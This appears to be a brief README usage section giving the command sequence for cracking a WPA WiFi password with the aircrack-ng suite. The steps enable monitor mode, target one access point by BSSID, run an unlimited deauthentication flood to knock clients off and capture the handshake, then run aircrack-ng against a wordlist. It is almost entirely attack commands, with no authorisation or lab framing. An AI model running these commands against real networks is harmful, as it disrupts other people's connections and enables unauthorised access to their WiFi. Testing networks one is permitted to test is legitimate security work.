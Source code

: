 > ## Usage

```bash
iwconfig 
```
```ruby
sudo airmon-ng check kill
sudo airmon-ng start 'wlanname'
sudo airmon-ng
```
 
> !Check the interface
```bash
 iwconfig
 ```

> !Get  AP MAC's
```ruby
sudo airodump-ng 'wlan'
```
> !1st window
```ruby
sudo airodump-ng -w namefile -c channel --bssid BSSID wlanname
```
> !2 st window
```ruby
sudo aireplay-ng --deauth 0 -a BSSID wlanname
```
> open wireshark namefile.cap
```
eapol
```
> !Stop monitor
```ruby
airmon-ng stop wlanname
```
> !Read the file
```ruby
aircrack-ng filename.cap -w /yourdumptext.txt
```
